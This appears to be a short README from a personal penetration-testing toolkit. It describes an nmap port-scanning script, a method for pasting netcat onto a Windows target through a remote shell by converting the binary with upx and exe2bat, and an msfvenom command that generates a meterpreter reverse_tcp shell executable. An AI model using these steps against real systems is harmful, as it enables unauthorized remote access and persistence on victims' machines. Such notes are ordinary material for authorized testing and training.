 # t0w3ntum

### Files
nmap.sh - Does a full fast port scan and then individual intense scans on each port

tools/nc.txt

     Useful if you have no other way of copying netcat over to a target windows
host. To use, copy the contents of nc.txt and paste it into the remote shell. 
I use xclip like so. 

	cat nc.txt | xclip -selection clipboard

The file was created with the following method. 
[code]
	upx nc.exe
	wine exe2bat.exe nc.exe nc.txt
[/code]
### Commands

- Generate a meterpreter reverse_tcp shell. 

[code]msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe[/code]
